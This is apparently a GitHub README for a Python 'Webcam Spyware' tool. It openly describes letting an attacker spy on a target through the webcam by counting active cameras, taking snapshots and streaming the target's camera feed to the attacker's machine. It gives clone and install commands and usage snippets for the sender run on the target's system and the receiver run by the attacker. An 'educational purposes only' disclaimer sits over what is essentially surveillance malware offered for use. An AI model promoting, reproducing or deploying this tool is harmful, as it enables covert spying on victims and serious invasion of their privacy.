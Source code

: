 # Webcam Spyware

![image](https://drive.google.com/uc?export=download&id=1ZFOgirSKoTX229XS-GxuSzuaH_PIyD2g)

## Disclaimer

This script is for educational purposes only, I don't endorse or promote it's illegal usage

## Table of Contents

1. [Overview](#overview)
2. [Features](#features)
3. [Languages](#languages)
4. [Installations](#installations)
5. [Usage](#usage)
6. [Run](#run)

## Overview

This script allows an attacker spy on a target through the webcam

## Features

- You can check how many webcam are active on the target's system
- You can take snapshot with the target's webcam
- It streams the target's webcam view to the attacker

## Languages

- Python 3.9.7

## Installations

```shell
git clone https://github.com/favoursyre/webcam-spyware.git && cd webcam-spyware
```

```shell
pip install opencv-python
```

## Usage

To check how many webcams are active on the system

```python
cam = Webcam().camScanner()
```

To take a snapshot using the webcam

```python
camPort = 0
cam = Webcam().snapShot(camPort)
```

To stream the webcam view from the target to the attacker
- On target's system

```python
cam = Webcam().sender()
```

- On attacker's system

```python
host = "target-ip-address"
cam = Webcam().receiver(host)
```

## Run

```shell
python webcam.py
```

To use the streaming function, first run the software on target's system before running on the attacker's system
